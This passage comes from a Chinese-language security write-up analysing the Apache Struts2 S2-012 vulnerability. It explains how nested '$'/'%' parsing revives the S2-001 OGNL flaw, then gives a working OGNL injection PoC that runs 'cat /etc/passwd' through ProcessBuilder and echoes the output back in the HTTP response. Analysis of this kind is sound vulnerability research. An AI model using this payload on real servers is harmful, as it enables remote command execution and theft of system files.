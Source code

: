 可以看到，这里的`while(true)`循环被放置到一个`for`循环里了，且`for`循环的次数由`char`数组`openChars`的长度决定，而这里传入的`openChars`的长度为`2`,两个元素分别为`$`和`%`字符。所以下面的`while(true)`循环会执行两次，第一次是解析`${name}`，解析得到结果后，继续对结果`%{xxx}`进行解析。因此使得`S2-001`漏洞重现了。(是不是感觉挺有意思的^_^)

<img src="pic/struts2_s2-012_6.png">

### 可回显PoC

综上，这里可以直接用`S2-001`的PoC执行任意命令：

```
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```
